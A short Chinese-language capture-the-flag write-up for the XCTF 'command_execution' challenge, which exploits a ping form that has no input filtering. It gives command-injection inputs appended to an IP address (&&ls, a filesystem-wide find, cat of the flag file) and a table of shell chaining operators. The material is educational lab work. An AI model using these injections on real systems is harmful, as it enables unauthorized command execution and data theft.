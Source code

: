 # T14 简单点

> 题目： 攻防世界 command_execution

__0x00 审题__

```
小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。
```
题目详情也很重要，打开靶机，ping一个地址

输入127.0.0.1，得到：

```
ping -c 3 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.052 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.041 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2044ms
rtt min/avg/max/mdev = 0.032/0.041/0.052/0.011 ms
```

至少有回显


__0x01 解题__

1. 输入危险的参数看看有无回显：127.0.0.1&&ls

```
ping -c 3 127.0.0.1&&ls
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.038 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.051 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2035ms
rtt min/avg/max/mdev = 0.024/0.037/0.051/0.013 ms
index.php
```


很好，可行

* 常见的连接符

```
;	 A;B	先执行A，再执行B
&	 A&B	简单拼接，A B之间无制约关系
|	 A|B	显示B的执行结果
&&	A&&B	A执行成功，然后才会执行B
||	A||B	A执行失败，然后才会执行B
```

2. 输入127.0.0.1&&find / -name "flag*"

得到：

```
/home/flag.txt
```

3. 127.0.0.1 && cat /home/flag.txt

抓取flag啊

__0x02 总结__

> 还是没上很难的

关于查找文件：find / -name "文件名"
